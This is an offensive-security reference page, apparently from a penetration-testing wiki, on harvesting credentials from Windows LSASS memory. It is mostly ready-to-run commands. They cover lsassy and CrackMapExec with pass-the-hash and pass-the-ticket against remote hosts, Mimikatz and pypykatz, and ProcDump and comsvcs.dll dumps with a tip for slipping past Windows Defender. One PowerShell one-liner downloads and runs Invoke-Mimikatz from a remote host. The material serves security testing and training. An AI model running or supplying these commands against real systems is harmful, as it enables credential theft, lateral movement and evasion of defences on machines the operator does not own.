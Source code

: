 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.001
---
```


# LSASS secrets

## Theory

The Local Security Authority Subsystem Service (LSASS) is a Windows service responsible for enforcing the security policy on the system. It verifies users logging in, handles password changes and creates access tokens. Those operations lead to the storage of credential material in the process memory of LSASS. **With administrative rights only**, this material can be harvested (either locally or remotely).

## Practice

{% tabs %}
{% tab title="Lsassy" %}
[Lsassy](https://github.com/Hackndo/lsassy) (Python) can be used to remotely extract credentials, from LSASS, on multiple hosts. As of today (22/07/2020), it is the Rolls-Royce of remote lsass credential harvesting.

* several dumping methods: comsvcs.dll, [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), [Dumpert](https://github.com/outflanknl/Dumpert)
* several authentication methods: like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)
* it can be used either as a standalone script, as a [CrackMapExec](https://github.com/mpgn/CrackMapExec) module or as a Python library
* it can interact with a Neo4j database to set [BloodHound](https://github.com/BloodHoundAD/BloodHound) targets as "owned"

```bash
# With pass-the-hash (NTLM)
lsassy -u $USER -H $NThash $TARGETS

# With plaintext credentials
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS

# With pass-the-ticket (Kerberos)
lsassy -k $TARGETS

# CrackMapExec Module examples
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
crackmapexec smb $TARGETS -k -M lsassy
crackmapexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from lsass's process memory, or remotely to analyze a memory dump (dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example).

```bash
# (Locally) extract credentials from LSASS process memory
sekurlsa::logonpasswords

# (Remotely) analyze a memory dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

For Windows 2000, a special version of mimikatz called mimilove can be used.
{% endtab %}

{% tab title="Pypykatz" %}
[Pypykatz](https://github.com/skelsec/pypykatz) (Python) can be used remotely (i.e. offline) to analyze a memory dump (dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example).

```bash
pypykatz lsa minidump lsass.dmp
```
{% endtab %}

{% tab title="ProcDump" %}
The legitimate tool [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) (from [sysinternals](https://docs.microsoft.com/en-us/sysinternals/)) ([download](https://live.sysinternals.com/)) can be used to dump lsass's process memory.

```bash
procdump --accepteula -ma lsass lsass.dmp
```

{% hint style="info" %}
Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier (pid) "bypasses" that.
{% endhint %}

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
procdump -accepteula -ma $lsass_pid lsass.dmp
```

Once the memory dump is finished, it can be analyzed with [mimikatz](https://github.com/gentilkiwi/mimikatz) (Windows) or [pypykatz](https://github.com/skelsec/pypykatz) (Python, cross-platform).
{% endtab %}

{% tab title="comsvcs.dll" %}
The native comsvcs.dll DLL found in `C:\Windows\system32` can be used with rundll32 to dump LSASS's process memory.

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```
{% endtab %}

{% tab title="PowerSploit" %}
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s exfiltration script [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) (PowerShell) can be used to extract credential material from LSASS's process memory.

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endtab %}
{% endtabs %}

Recovered credential material could be either plaintext passwords or NT hash that can be used with [pass the hash](../../ntlm/pth.md) (depending on the context).

## References

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords/" %}
